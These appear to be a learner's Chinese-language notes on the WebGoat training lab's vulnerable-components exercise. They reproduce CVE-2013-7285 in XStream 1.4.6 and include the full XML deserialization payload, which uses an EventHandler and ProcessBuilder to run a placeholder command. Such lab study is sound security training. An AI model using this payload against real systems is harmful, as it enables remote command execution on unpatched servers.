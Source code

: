 # （三）A6-漏洞组件 & A7-身份认证 & A8

## 1 漏洞组件

### 1.1 上来就过的

大概就是1.12会弹出这个提示，但是？这个我的输入有什么关系吗？
不理解

![](../images/Pasted%20image%2020241203110555.png)

### 1.2 CVE-2013-7285 (XStream)

#### 1.2.1 复现环境配置

先随便试试，大概之后要修改xml来干点什么？

![](../images/Pasted%20image%2020241203111629.png)

> 看到了似乎有用的
> https://loli.fj.cn/2024/04/25/CVE-2013-7285%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8/#%E5%AE%8C%E6%88%90


```xml
<sorted-set>
    <string>foo</string>
    <dynamic-proxy>
        <interface>java.lang.Comparable</interface>
        <handler class="java.beans.EventHandler">
            <target class="java.lang.ProcessBuilder">
                <command>
                    <string><<command>></string>
                </command>
            </target>
            <action>start</action>
        </handler>
    </dynamic-proxy>
</sorted-set>
```

直接贴上去看看

![](../images/Pasted%20image%2020241203113529.png)

试图用java自己搞一个环境
一直在报错！

如果只报 `java.lang.ExceptionInInitializerError at com.thoughtworks.xstream.XStream.setupConverters`
那就是pom没写依赖

> 1.4.7修复了这个安全漏洞，需要使用1.4.6复现
> https://github.com/WebGoat/WebGoat/issues/725
> 

